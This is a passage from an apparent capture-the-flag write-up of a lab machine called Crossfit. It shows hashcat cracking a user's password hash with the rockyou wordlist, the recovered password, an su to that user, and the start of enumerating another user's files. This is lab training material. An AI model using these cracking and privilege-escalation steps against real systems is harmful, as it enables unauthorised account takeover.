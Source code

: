 ### Cracking Hash

`hashcat` will break this hash with `rockyou` pretty quickly:

    
    
    root@kali# hashcat -m 1800 hank.hash /usr/share/wordlists/rockyou.txt 
    ...[snip]...
    $6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/:powerpuffgirls
    

### su

That password works to `su` as hank on Crossfit:

    
    
    www-data@crossfit:/etc/ansible/playbooks$ su hank - 
    Password: 
    hank@crossfit:/etc/ansible/playbooks$
    

And I can read `user.txt`:

    
    
    hank@crossfit:~$ cat user.txt
    be673d70************************
    

## Shell as isaac

### Enumeration

#### send_updates.php

There’s not much interesting in hank’s home directory, but hank is a member of
the admins group:

    
    
    hank@crossfit:~$ id
    uid=1004(hank) gid=1006(hank) groups=1006(hank),1005(admins)
    

This allows reading in the `send_updates` folder in isaac’s homedir:

    
    
    hank@crossfit:/home/isaac$ ls -l
    total 4
    drwxr-x--- 4 isaac admins 4096 May  9  2020 send_updates
    hank@crossfit:/home/isaac/send_updates$ ls -l
    total 20
    -rw-r----- 1 isaac admins   74 May  4  2020 composer.json
    -rw-r----- 1 isaac admins 1943 May  4  2020 composer.lock
    drwxr-x--- 2 isaac isaac  4096 May  7  2020 includes
    -rw-r----- 1 isaac admins 1085 May  9  2020 send_updates.php
    drwxr-x--- 4 isaac isaac  4096 May  4  2020 vendor
    